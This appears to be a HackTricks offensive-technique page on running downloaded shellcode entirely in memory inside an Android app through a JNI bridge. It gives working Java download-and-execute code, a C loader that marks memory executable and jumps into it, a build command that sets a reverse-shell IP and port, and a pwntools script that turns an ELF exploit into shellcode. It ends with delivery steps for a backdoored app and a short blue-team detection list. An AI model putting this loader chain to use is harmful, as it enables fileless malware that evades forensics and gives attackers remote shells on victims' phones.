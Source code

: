 # Android In-Memory Native Code Execution via JNI (shellcode)

{{#include ../../banners/hacktricks-training.md}}

This page documents a practical pattern to execute native payloads fully in memory from an untrusted Android app process using JNI. The flow avoids creating any on-disk native binary: download raw shellcode bytes over HTTP(S), pass them to a JNI bridge, allocate RX memory, and jump into it.

Why it matters
- Reduces forensic artifacts (no ELF on disk)
- Compatible with “stage-2” native payloads generated from an ELF exploit binary
- Matches tradecraft used by modern malware and red teams

High-level pattern
1) Fetch shellcode bytes in Java/Kotlin
2) Call a native method (JNI) with the byte array
3) In JNI: allocate RW memory → copy bytes → mprotect to RX → call entrypoint

Minimal example

Java/Kotlin side
```java
public final class NativeExec {
    static { System.loadLibrary("nativeexec"); }
    public static native int run(byte[] sc);
}

// Download and execute (simplified)
byte[] sc = new java.net.URL("https://your-server/sc").openStream().readAllBytes();
int rc = NativeExec.run(sc);
```

C JNI side (arm64/amd64)
```c
#include <jni.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

static inline void flush_icache(void *p, size_t len) {
    __builtin___clear_cache((char*)p, (char*)p + len);
}

JNIEXPORT jint JNICALL
Java_com_example_NativeExec_run(JNIEnv *env, jclass cls, jbyteArray sc) {
    jsize len = (*env)->GetArrayLength(env, sc);
    if (len <= 0) return -1;

    // RW anonymous buffer
    void *buf = mmap(NULL, len, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (buf == MAP_FAILED) return -2;

    jboolean isCopy = 0;
    jbyte *bytes = (*env)->GetByteArrayElements(env, sc, &isCopy);
    if (!bytes) { munmap(buf, len); return -3; }

    memcpy(buf, bytes, len);
    (*env)->ReleaseByteArrayElements(env, sc, bytes, JNI_ABORT);

    // Make RX and execute
    if (mprotect(buf, len, PROT_READ | PROT_EXEC) != 0) { munmap(buf, len); return -4; }
    flush_icache(buf, len);

    int (*entry)(void) = (int (*)(void))buf;
    int ret = entry();

    // Optional: restore RW and wipe
    mprotect(buf, len, PROT_READ | PROT_WRITE);
    memset(buf, 0, len);
    munmap(buf, len);
    return ret;
}
```

Notes and caveats
- W^X/execmem: Modern Android enforces W^X; anonymous PROT_EXEC mappings are still generally allowed for app processes with JIT (subject to SELinux policy). Some devices/ROMs restrict this; fall back to JIT-allocated exec pools or native bridges when needed.
- Architectures: Ensure the shellcode architecture matches the device (arm64-v8a commonly; x86 only on emulators).
- Entrypoint contract: Decide a convention for your shellcode entry (no args vs structure pointer). Keep it position-independent (PIC).
- Stability: Clear instruction cache before jumping; mismatched cache can crash on ARM.

Packaging ELF → position‑independent shellcode
A robust operator pipeline is to:
- Build your exploit as a static ELF with musl-gcc
- Convert the ELF into a self‑loading shellcode blob using pwntools’ shellcraft.loader_append

Build
```bash
musl-gcc -O3 -s -static -fno-pic -o exploit exploit.c \
  -DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```

Transform ELF to raw shellcode (amd64 example)
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
loader = shellcraft.loader_append(elf.data, arch='amd64')
sc = asm(loader)
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)}, shellcode size={len(sc)}")
```

Why loader_append works: it emits a tiny loader that maps the embedded ELF program segments in memory and transfers control to its entrypoint, giving you a single raw blob that can be memcpy’ed and executed by the app.

Delivery
- Host sc on an HTTP(S) server you control
- The backdoored/test app downloads sc and invokes the JNI bridge shown above
- Listen on your operator box for any reverse connection the kernel/user-mode payload establishes

Validation workflow for kernel payloads
- Use a symbolized vmlinux for fast reversing/offset recovery
- Prototype primitives on a convenient debug image if available, but always re‑validate on the actual Android target (kallsyms, KASLR slide, page-table layout, and mitigations differ)

Hardening/Detection (blue team)
- Disallow anonymous PROT_EXEC in app domains where possible (SELinux policy)
- Enforce strict code integrity (no dynamic native loading from network) and validate update channels
- Monitor suspicious mmap/mprotect transitions to RX and large byte-array copies preceding jumps

References
- [CoRPhone challenge repo (Android kernel pwn; JNI memory-only loader pattern)](https://github.com/0xdevil/corphone)
- [build.sh (musl-gcc + pwntools pipeline)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/build.sh)
- [exp2sc.py (pwntools shellcraft.loader_append)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exp2sc.py)
- [exploit.c TL;DR (operator/kernel flow, offsets, reverse shell)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exploit.c)
- [INSTRUCTIONS.md (setup notes)](https://github.com/0xdevil/corphone/blob/main/INSTRUCTIONS.md)

{{#include ../../banners/hacktricks-training.md}}
